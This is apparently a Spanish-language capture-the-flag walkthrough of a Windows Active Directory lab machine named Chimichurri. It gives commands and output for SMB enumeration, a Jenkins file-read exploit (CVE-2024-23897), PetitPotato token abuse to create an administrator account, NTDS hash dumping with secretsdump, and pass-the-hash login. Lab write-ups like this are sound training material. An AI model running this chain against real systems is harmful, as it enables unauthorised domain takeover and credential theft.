

**Plataforma:** The Hackers Labs\
**Sistema Operativo:** Windows

> **Tags:** `Active Directory` `SMB` `Information Leakage` `Jenkins CVE-2024-23897` `WinRM` `SeImpersonatePrivilege` `PetitPotato` `Pass-The-Hash`

## INSTALACIÓN

Descargamos el archivo `zip` que contiene la `.ova` de la máquina Chimichurrri, lo extraemos y la importamos en VirtualBox.

Configuramos la interfaz de red de la máquina Chimichurrri y la iniciamos junto a nuestra máquina atacante.

Identificamos con seguridad que la `IP` de la víctima es `192.168.200.4`.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para identificar qué puertos están abiertos, seguido de un escaneo más exhaustivo para enumerar las versiones y servicios que corren en ellos.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 192.168.200.4
```

```bash
nmap -n -Pn -sCV -p53,88,135,139,389,445,464,593,5985,6969,47001 --min-rate 5000 192.168.200.4
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-25 16:56 +0100
Nmap scan report for 192.168.200.4
Host is up (0.00025s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-25 15:56:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: chimichurri.thl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6969/tcp  open  http          Jetty 10.0.11
|_http-server-header: Jetty(10.0.11)
|_http-title: Panel de control [Jenkins]
| http-robots.txt: 1 disallowed entry 
|_/
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
MAC Address: 08:00:27:6C:28:EB (Oracle VirtualBox virtual NIC)
Service Info: Host: CHIMICHURRI; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-25T15:56:28
|_  start_date: 2026-02-25T15:52:22
|_nbstat: NetBIOS name: CHIMICHURRI, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:6c:28:eb (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Observamos que se trata claramente de un entorno `Active Directory`. 

Además de los puertos típicos, descubrimos un servicio `Jenkins` corriendo en el puerto inusual `6969`.

El dominio detectado es `chimichurri.thl`, por lo que procedemos a añadirlo a nuestro archivo `/etc/hosts` para una correcta resolución.

```Bash
sudo nano /etc/hosts
```

```
127.0.0.1	localhost
127.0.1.1	kali
192.168.200.4   chimichurri.thl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## ENUMERACIÓN SMB

Comenzamos la enumeración recopilando información del dominio a través del servicio `SMB` utilizando `Enum4linux-ng`.

```Bash
enum4linux-ng -A chimichurri.thl
```

Info:
```
ENUM4LINUX - next generation (v1.3.7)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... chimichurri.thl
[*] Username ......... ''
[*] Random Username .. 'ehqmziyn'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ========================================
|    Listener Scan on chimichurri.thl    |
 ========================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =======================================================
|    Domain Information via LDAP for chimichurri.thl    |
 =======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: chimichurri.thl

 ==============================================================
|    NetBIOS Names and Workgroup/Domain for chimichurri.thl    |
 ==============================================================
[+] Got domain/workgroup name: CHIMICHURRI0
[+] Full NetBIOS names information:
- CHIMICHURRI0    <1c> - <GROUP> B <ACTIVE>  Domain Controllers
- CHIMICHURRI     <00> -         B <ACTIVE>  Workstation Service
- CHIMICHURRI0    <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
- CHIMICHURRI     <20> -         B <ACTIVE>  File Server Service
- CHIMICHURRI0    <1b> -         B <ACTIVE>  Domain Master Browser
- MAC Address = 08-00-27-6C-28-EB

 ============================================
|    SMB Dialect Check on chimichurri.thl    |
 ============================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.0.2: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: true

 ==============================================================
|    Domain Information via SMB session for chimichurri.thl    |
 ==============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: CHIMICHURRI
NetBIOS domain name: CHIMICHURRI0
DNS domain: chimichurri.thl
FQDN: CHIMICHURRI.chimichurri.thl
Derived membership: domain member
Derived domain: CHIMICHURRI0

 ============================================
|    RPC Session Check on chimichurri.thl    |
 ============================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[+] Server allows authentication via username 'ehqmziyn' and password ''
[H] Rerunning enumeration with user 'ehqmziyn' might give more results

 ======================================================
|    Domain Information via RPC for chimichurri.thl    |
 ======================================================
[+] Domain: CHIMICHURRI0
[+] Domain SID: S-1-5-21-3046175042-3013395696-775018414
[+] Membership: domain member

 ==================================================
|    OS Information via RPC for chimichurri.thl    |
 ==================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1607'
OS build: '14393'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

 ========================================
|    Users via RPC on chimichurri.thl    |
 ========================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =========================================
|    Groups via RPC on chimichurri.thl    |
 =========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =========================================
|    Shares via RPC on chimichurri.thl    |
 =========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ============================================
|    Policies via RPC for chimichurri.thl    |
 ============================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ============================================
|    Printers via RPC for chimichurri.thl    |
 ============================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 0.46 seconds
```

Aprovechamos para listar los recursos compartidos accesibles haciendo uso de `NetExec` con el usuario `guest`.

```Bash
netexec smb chimichurri.thl -u guest -p '' --shares
```

Info:
```
SMB         192.168.200.4   445    CHIMICHURRI      [*] Windows 10 / Server 2016 Build 14393 x64 (name:CHIMICHURRI) (domain:chimichurri.thl) (signing:True) (SMBv1:False)
SMB         192.168.200.4   445    CHIMICHURRI      [+] chimichurri.thl\guest: (Guest)
SMB         192.168.200.4   445    CHIMICHURRI      [*] Enumerated shares
SMB         192.168.200.4   445    CHIMICHURRI      Share           Permissions     Remark
SMB         192.168.200.4   445    CHIMICHURRI      -----           -----------     ------
SMB         192.168.200.4   445    CHIMICHURRI      ADMIN$                          Admin remota
SMB         192.168.200.4   445    CHIMICHURRI      C$                              Recurso predeterminado
SMB         192.168.200.4   445    CHIMICHURRI      drogas          READ        
SMB         192.168.200.4   445    CHIMICHURRI      IPC$            READ            IPC remota
SMB         192.168.200.4   445    CHIMICHURRI      NETLOGON                        Recurso compartido del servidor de inicio de sesión
SMB         192.168.200.4   445    CHIMICHURRI      SYSVOL                          Recurso compartido del servidor de inicio de sesión
```

Encontramos un recurso compartido inusual llamado `drogas` en el que disponemos de permisos de lectura. 

Nos conectamos a él mediante `smbclient`.

```Bash
smbclient //chimichurri.thl/drogas -U guest -p
```
```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 27 12:20:49 2024
  ..                                  D        0  Thu Jun 27 12:20:49 2024
  credenciales.txt                    A       95  Sun Jun 30 19:19:03 2024

		7735807 blocks of size 4096. 4364702 blocks available
smb: \> get credenciales.txt 
getting file \credenciales.txt of size 95 as credenciales.txt (46.4 KiloBytes/sec) (average 46.4 KiloBytes/sec)
smb: \> exit
```

Descargamos el archivo `credenciales.txt` y leemos su contenido.

```Bash
cat credenciales.txt
```
```
Todo es mejor en con el usuario hacker, en su escritorio estan sus claves de acceso como perico
```

Encontramos información muy valiosa: la existencia de un usuario llamado `hacker` y la mención de un archivo clave llamado `perico` situado en su escritorio. 

Sin embargo, no disponemos aún de credenciales válidas que nos permitan autenticarnos directamente por `SMB` o `WINRM`.

## EXPLOTACIÓN JENKINS

A continuación, revisamos el panel de control de `Jenkins` expuesto en el puerto `6969`.



Inspeccionando la página, identificamos la versión exacta en la parte inferior: `Jenkins 2.361.4`.

Buscando vulnerabilidades conocidas para esta versión, identificamos que es vulnerable a un `Arbitrary File Read`, catalogado con el `CVE-2024-23897`. 

Esta vulnerabilidad permite leer archivos locales del servidor.

Descargamos un exploit público a nuestra máquina atacante para aprovechar esta falla.

```Bash
git clone https://github.com/godylockz/CVE-2024-23897
```

Asignamos permisos de ejecución y lanzamos el script apuntando al servidor. 

Sabiendo por la pista anterior que existe un archivo con claves en el escritorio del usuario `hacker`, procedemos a leer la ruta absoluta `C:\Users\hacker\Desktop\perico.txt`.

```Bash
chmod +x jenkins_fileread.py
python3 jenkins_fileread.py -u chimichurri.thl:6969
```

Info:
```
Welcome to the Jenkins file-read shell. Type help or ? to list commands.

file> C:\Users\hacker\Desktop\perico.txt

hacker:Perico69

file>
```

La lectura del archivo ha sido exitosa y logramos extraer las credenciales válidas en texto plano: `hacker:Perico69`.

## ACCESO INICIAL

Habiendo confirmado las credenciales del usuario `hacker`, utilizamos `Evil-WinRM` para establecer una sesión remota interactiva en la máquina.

```Bash
evil-winrm -i chimichurri.thl -u 'hacker' -p 'Perico69'
```
```
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\hacker\Documents>
```

El acceso es exitoso y ya estamos dentro del sistema.

## ESCALADA DE PRIVILEGIOS

Una vez obtenida la shell, lo primero que hacemos es listar los privilegios asignados a nuestro usuario actual para buscar vectores de escalada de privilegios.

```DOS
whoami /priv
```

```
INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                  Estado
============================= ============================================ ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio     Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Habilitada
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci¢n Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada
```

Observamos que tenemos habilitado el privilegio `SeImpersonatePrivilege`. Este privilegio permite suplantar tokens de acceso, lo cual es altamente explotable.

Para abusar de esta configuración, utilizaremos la herramienta `PetitPotato`. 

Creamos un directorio temporal en la máquina víctima para evitar problemas y subimos el binario desde nuestra máquina atacante utilizando la función integrada de `Evil-WinRM`.

```DOS
mkdir temp
cd temp
```

```powershell
upload /home/trihack/Downloads/PetitPotato.exe
```
```
Info: Uploading /home/trihack/Downloads/PetitPotato.exe to C:\temp\PetitPotato.exe
                                        
Data: 1592660 bytes of 1592660 bytes copied
                                        
Info: Upload successful!
```

A continuación, ejecutamos el exploit y le pasamos el comando necesario para crear un nuevo usuario en el sistema. 

En este caso, creamos el usuario `hackeado` con la contraseña `Password123`.

```PowerShell
./PetitPotato.exe -c "net user hackeado Password123 /add"
```
```
[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcOpenFileRaw with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.

[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Se ha completado el comando correctamente.
```

Para asegurar nuestro control sobre la máquina, utilizamos el mismo método para añadir a nuestro usuario recién creado al `grupo local de Administradores`.

```PowerShell
./PetitPotato.exe -c "net localgroup Administradores hackeado /add"
```

```
[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcOpenFileRaw with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.

[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Se ha completado el comando correctamente.
```

Al pertenecer al grupo de administradores con el usuario `hackeado`, disponemos de los permisos suficientes para volcar la base de datos `NTDS.dit` del Controlador de Dominio de manera remota.

Lanzamos `Impacket-secretsdump` desde nuestra máquina atacante contra el sistema víctima.

```Bash
impacket-secretsdump chimichurri.thl/hackeado@chimichurri.thl
```

Info:
```
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x76a1ec8adc07db9ee3cd53b4086a0b89
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:e7574da3c074747c48f70aeac813cdea:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CHIMICHURRI0\CHIMICHURRI$:aes256-cts-hmac-sha1-96:c42b95543a858f808d0762890436274fabf17ee6db6dda31ad2d63f81060ca8f
CHIMICHURRI0\CHIMICHURRI$:aes128-cts-hmac-sha1-96:aee239535a6c91e41dec79a8f5117530
CHIMICHURRI0\CHIMICHURRI$:des-cbc-md5:37798aad13c12967
CHIMICHURRI0\CHIMICHURRI$:plain_password_hex:28c3f128515835809e8ce021e5e0ba100d8f405d1a041286e5da83e5ee412f9462d3b9373ec5d229764e1864dcf772ed87f6d47215dc43ee6e50b6a398343fecb6d02e6d0a26543880279ea6a8b2cb0994a97dd55bca7b99def44b07900a2dc7e0b590f1c41a433ba93b0dd1d0f7246702fb4cf1a15517488685e2c7f61ecbc24fe44c33111d86634bece319b4a4071c5c1593a8e8a041c23dcd184b975aa03f04831dd23abcb7164b72f4db0524834dce1746fba777773f448c75c96a13caf732dd70c92655697e37e0c7bdfe69721d30768c3bf1e57b86b0d9abacfcff53d7aca49e5780841aba6e94b642f9b89646
CHIMICHURRI0\CHIMICHURRI$:aad3b435b51404eeaad3b435b51404ee:dd4ce9ee5be0df686b5465a96aec8b7a:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6ef866cb7a0d6e9bbdb99bdc0b2fa1ef5703a708
dpapi_userkey:0x7742e4cf01b431b2d1d21e1ffe3e9011f74c83cd
[*] NL$KM 
 0000   5D A8 9A 37 E8 AC 00 08  55 65 D0 B3 19 3E 71 F4   ]..7....Ue...>q.
 0010   6D BE 93 45 7D ED 5E 17  54 C0 30 DC BC 55 80 DB   m..E}.^.T.0..U..
 0020   2A DF 74 71 D8 5B 79 63  8A CE 3A A8 4F D1 1D 06   *.tq.[yc..:.O...
 0030   2C B1 66 69 BF BE 59 D4  B5 0B 03 3E 06 ED C7 3D   ,.fi..Y....>...=
NL$KM:5da89a37e8ac00085565d0b3193e71f46dbe93457ded5e1754c030dcbc5580db2adf7471d85b79638ace3aa84fd11d062cb16669bfbe59d4b50b033e06edc73d
[*] _SC_Jenkins 
CHIMICHURRI0\hacker:Perico69
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrador:500:aad3b435b51404eeaad3b435b51404ee:058a4c99bab8b3d04a6bd959f95ce2b2:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a56c98cb518afcee50a23f25954575e1:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
hacker:1000:aad3b435b51404eeaad3b435b51404ee:6e7107c02923f27aae0a58e701db47e3:::
pwned:1108:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
hackeado:1109:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
CHIMICHURRI$:1001:aad3b435b51404eeaad3b435b51404ee:dd4ce9ee5be0df686b5465a96aec8b7a:::
-------------------------------------<MORE_OUTPUT>--------------------------------------------------
```

Con el volcado exitoso, extraemos el `hash NTLM` del usuario `Administrador` del dominio (058a4c99bab8b3d04a6bd959f95ce2b2).

Utilizamos la técnica de `Pass-The-Hash` con `Evil-WinRM` para iniciar sesión como `administrador` y comprometer el dominio por completo.

```Bash
evil-winrm -i chimichurri.thl -u Administrador -H '058a4c99bab8b3d04a6bd959f95ce2b2'
```
```
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
chimichurri0\administrador
*Evil-WinRM* PS C:\Users\Administrador\Documents>
```

¡Ya somos administradores del sistema!

Por último, obtenemos las `flags` de usuario y root.

```
type C:\Users\hacker\Desktop\user.txt
acrsgvs6edr8f5vaw9a8eadv6fa9b
type C:\Users\Administrador\Desktop\root.txt
hjafcdv8a75e3cvsdfg6asd4f9vbsf9sa
```